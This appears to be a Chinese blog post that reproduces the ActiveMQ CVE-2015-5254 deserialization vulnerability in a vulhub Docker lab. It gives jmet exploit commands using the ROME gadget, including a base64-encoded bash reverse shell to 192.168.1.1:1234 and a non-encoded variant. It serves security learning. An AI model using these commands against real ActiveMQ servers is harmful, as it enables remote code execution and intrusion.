










# CVE-2015-5254 - 七先生 - 博客园

> 原文：[`www.cnblogs.com/Qixiansheng/p/15470029.html`](https://www.cnblogs.com/Qixiansheng/p/15470029.html)

# ActiveMQ CVE-2015-5254 漏洞复现

## 0\. 环境搭建

0.  安装 docker：

    ```
    curl -s https://get.docker.com/ | sh 
    ```

1.  搭建 vulhub，使用 wget 下载 vulhub：

    ```
    wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip 
    ```

    解压：

    ```
    unzip vulhub-master.zip 
    ```

    进入漏洞环境：

    ```
    cd /tools/range/activemq/CVE-2015-5254 
    ```

    启动环境：

    ```
    docker-compose up -d 
    ```

    最后如图：

    

2.  启动了 CVE-2015-5254 的环境，浏览器访问：

    ```
    docker ps 
    ```

    能够看到 0.0.0.0:8161-->8161/tcp 和 0.0.0.0:61616-->61616

    **其中的 8161 端口就是管理页面的端口，而 61616 则是发送消息的工作端口。**

    浏览器访问虚拟机 ip 加端口：192.168.163.128:8161

    

    **Manage ActiveMQ 为漏洞利用点，不过需要管理员权限才能访问，简单点说，需要密码，这里的默认帐密为 admin/admin；所以在不清楚密码的同时，我们需要伪造消息去让管理员点击。**

## 1\. 漏洞复现

0.  下载漏洞利用工具：

    ```
    wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar 
    ```

1.  构造可执行命令的序列化对象，执行命令

    jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME。

    ```
    java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/cve-2015-5254" -Yp ROME 192.168.163.128 61616 
    ```

    命令执行如图：

    

2.  访问管理页面的消息队列，点击消息

    进入 Manage ActiveMQ，点击 queue，能够看到获得的消息：

    

    进入 event，查看消息：

    

    点击 message ID，即可成功触发漏洞：

    

    进入 docker 查看，tmp 下是否已经创建了 cve-2015-5254 文件：

    ```
    docker exec 541e3f -it  /bin/bash
    #541e3f -->为 docker ID，使用 docker ps 命令能够查看 
    ```

    

    CVE-2015-5254 漏洞利用成功~

3.  反弹 shell

    反弹 shell，修改命令中“ ”内的命令，反弹 shell 命令为 bash -i >& /dev/tcp/vps 地址/nc 监听端口 0>&1

    漏洞利用同理，发送消息，点击消息，命令执行：

    ```
    java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.163.128 61616 
    ```

    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}该语句问上面的反弹 shell 命令编码过来，编码转换地址：[`www.jackson-t.ca/runtime-exec-payloads.html。`](http://www.jackson-t.ca/runtime-exec-payloads.html%E3%80%82)

    

    点击消息，命令执行：

    如图：

    

    得到 shell:

    

* * *

以上为漏洞复现的整个过程，以下为在复现中遇到的问题：

### 反弹 shell 无法成功：

使用语句时，shell 反弹不成功：

```
java -jar jmet-0.1.0.all-jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/192.168.1.1/1234" -Yp ROME 192.168.163.128 61616 
```

解决方法：

将反弹 shell 命令编码，编码地址在上文。

问题：反序列漏洞利用是否 bash 命令是否都需要编码？

问了一下我的同事，需不需要编码是要看他代码里面写没写 base64，一般都是需要的，因为序列化之后的数据是给计算机看的，对于我们来说就是一段乱码，所以一般进行一道 base64 编码，能让我们看上去舒服一些，一段数据以 rO0AB 开头，你基本可以确定这串就是 JAVA 序列化 base64 加密的数据，或者如果以 aced 开头，那么他就是这一段 java 序列化的 16 进制。这样一段数据就是典型的 base64 编码之后的 java 序列化数据：
